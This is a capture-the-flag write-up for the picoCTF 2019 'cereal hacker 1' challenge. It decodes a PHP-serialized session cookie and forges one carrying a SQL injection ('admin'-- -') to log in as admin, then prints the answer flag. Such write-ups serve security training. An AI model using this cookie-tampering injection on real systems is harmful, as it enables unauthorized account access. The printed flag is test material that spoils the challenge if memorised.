

## cereal hacker 1 (450)

#### Description
> Login as admin. https://2019shell1.picoctf.com/problem/32256/ or http://2019shell1.picoctf.com:32256

#### Solution
Login with account `guest:guest`, we got the cookie:
```
user_info: TzoxMToicGVybWlzc2lvbnMiOjI6e3M6ODoidXNlcm5hbWUiO3M6NToiZ3Vlc3QiO3M6ODoicGFzc3dvcmQiO3M6NToiZ3Vlc3QiO30%253D
```
Base64 decode the cookie, we got this:
```
O:11:"permissions":2:{s:8:"username";s:5:"guest";s:8:"password";s:5:"guest";}
```
The login page is not injectable, but the cookie is injectable with SQLi.
Payload to login as admin:
```
O:11:"permissions":1:{s:8:"username";s:10:"admin'-- -";}
TzoxMToicGVybWlzc2lvbnMiOjE6e3M6ODoidXNlcm5hbWUiO3M6MTA6ImFkbWluJy0tIC0iO30=
```

Edit the cookie, then visit the admin page at https://2019shell1.picoctf.com/problem/32256/index.php?file=admin, we will get flag.




#### Flag
`picoCTF{2eb6a9439bfa7cb1fc489b237de59dbf}`
